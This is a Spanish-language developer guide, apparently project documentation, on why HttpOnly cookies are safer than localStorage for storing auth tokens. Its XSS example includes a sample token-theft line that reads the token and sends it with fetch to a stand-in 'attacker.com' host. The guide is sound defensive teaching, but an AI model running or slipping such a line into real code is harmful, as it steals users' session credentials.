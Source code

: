 **Objetivo:** 100% de requests usando `source: 'cookie'`.

---

## 🚀 Ventajas de Cookies HttpOnly

### 1. Protección contra XSS

```javascript
// ❌ Con localStorage (vulnerable)
// Un script malicioso puede hacer:
const token = localStorage.getItem('token');
fetch('https://attacker.com', { body: token });

// ✅ Con cookies HttpOnly (protegido)
// Incluso con script malicioso:
const token = document.cookie; // authToken NO aparece
// El atacante NO puede robar el token
```

### 2. Envío Automático

```javascript
// ❌ Con localStorage (manual)
fetch(url, {
  headers: {
    'Authorization': `Bearer ${localStorage.getItem('token')}`
  }
});

// ✅ Con cookies HttpOnly (automático)
fetch(url, {
  credentials: 'include'
  // Cookie enviada automáticamente por el navegador
});
```

### 3. Expiración Automática

```javascript
// ❌ Con localStorage (permanente)
// Si no limpias manualmente, el token queda para siempre
localStorage.setItem('token', jwt); // No expira nunca

// ✅ Con cookies HttpOnly (expira automáticamente)
res.cookie('authToken', jwt, {
  maxAge: 50 * 60 * 1000 // Expira automáticamente en 50 minutos
});
```

### 4. Sincronización entre Tabs

```javascript
// ❌ Con localStorage
// Si cierras sesión en una tab, otras tabs siguen con el token

// ✅ Con cookies HttpOnly
// Si cierras sesión en una tab, todas las tabs pierden la cookie inmediatamente
```

---